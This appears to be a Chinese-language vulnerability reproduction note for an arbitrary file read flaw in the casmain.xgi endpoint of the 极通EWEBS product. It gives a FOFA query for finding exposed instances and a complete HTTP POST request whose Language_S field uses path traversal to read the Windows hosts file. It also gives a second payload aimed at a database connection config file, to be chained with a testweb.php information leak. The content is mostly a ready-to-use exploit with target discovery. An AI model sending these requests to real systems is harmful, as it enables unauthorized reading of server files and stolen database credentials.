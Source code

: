 # 极通EWEBS-casmain.xgi-任意文件读取漏洞

## 漏洞描述

极通EWEBS-casmain.xgi-任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> 极通EWEBS

## FOFA

> [!NOTE]
>
> app="新软科技-极通EWEBS"

## 漏洞复现

登录页面如下

![image-20210615125923544](极通EWEBS-casmain.xgi-任意文件读取漏洞.assets/1627363115100397.jpg)

漏洞请求包为

```
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```

![image-20210615130137932](极通EWEBS-casmain.xgi-任意文件读取漏洞.assets/1627363115432296.jpg)

可以配合 testweb.php 信息泄露读取敏感信息

```
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

